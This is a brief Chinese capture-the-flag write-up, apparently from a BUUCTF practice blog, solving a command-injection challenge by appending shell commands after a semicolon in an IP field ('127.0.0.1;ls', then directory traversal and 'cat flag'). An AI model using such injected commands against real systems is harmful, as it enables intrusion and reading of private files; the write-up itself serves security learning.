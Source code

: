 知识点：

1. 命令执行

2.  ;管道符的使用



1. paylaod:

```javascript
127.0.0.1;ls
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/24DBC0E71F304B87938E6F709220080Eclipboard.png)

确定存在命令执行



2. 寻找flag

```javascript
127.0.0.1;cd ..;cd ..;cd ..;ls
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/342759AEBC2A4982B0901B3BBE71254Bclipboard.png)



payload:

```javascript
127.0.0.1;cd ..;cd ..;cd ..;cat flag
```



也可以：

```javascript
127.0.0.1;cd ..;cat ../../../../flag
```

